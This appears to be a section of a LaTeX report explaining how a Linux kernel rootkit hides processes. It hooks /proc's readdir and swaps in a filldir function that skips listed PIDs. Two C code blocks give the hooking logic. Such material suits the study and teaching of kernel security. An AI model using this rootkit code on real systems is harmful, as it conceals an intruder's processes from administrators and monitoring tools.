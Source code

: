\documentclass[10pt, letterpaper]{article}
\begin{document}
\subsection{Process Hiding}

\label{sec:process-hiding}

Currently, we hook the \texttt{readdir} call of the \texttt{proc}-filesystem to hide the specified tasks (just as in \autoref{filehiding}). Moreover, we also employ a custom \texttt{filldir} function\footnote{\texttt{filldir\_t} is an own type in the Linux kernel for a function used to fill the contents of \texttt{readdir}.}, which actually hides the specified processes.

The hooked \texttt{readdir} function is quite simple:

\begin{verbatim}
int hooked_readdir(struct file *filep, void *dirent, filldir_t filldir){
    original_proc_fillfir = filldir;
    return proc_original_readdir(filep, dirent, hooked_proc_filldir);
}
\end{verbatim}

First, we remember the original \texttt{filldir} function so we can use it later. Afterwards, we call the \emph{original} \texttt{readdir} function, but we give our own \texttt{hooked\_proc\_filldir} as parameter to it. So, we ``just change parameters'' to the function.

It remains to show our hooked \texttt{filldir} function:

\begin{verbatim}
int hooked_proc_filldir (void *__buf, const char *name, int namelen, 
                         loff_t offset, u64 ino, unsigned d_type){
    char buf[512];
    struct proc_to_hide* cur;
    for(cur = processes_to_hide; cur != 0; cur = cur->next){
        sprintf(buf, "%d", cur->pid);
        if(strcmp(buf, name)==0){
            // If we come here, we hide the process.
            return 0;
        }
    }
    // If we come here, we just delegate everything to the original function.
    return original_proc_fillfir(__buf, name, namelen, offset, ino, d_type);
}
\end{verbatim}

As you can see, these kind of functions accept quite a bunch of arguments. But we need only one of them: \texttt{name} -- it holds a PID (formatted as a array of \texttt{char}s). 

All the other parameters are possibly passed to the original \texttt{filldir} function.
\end{document}
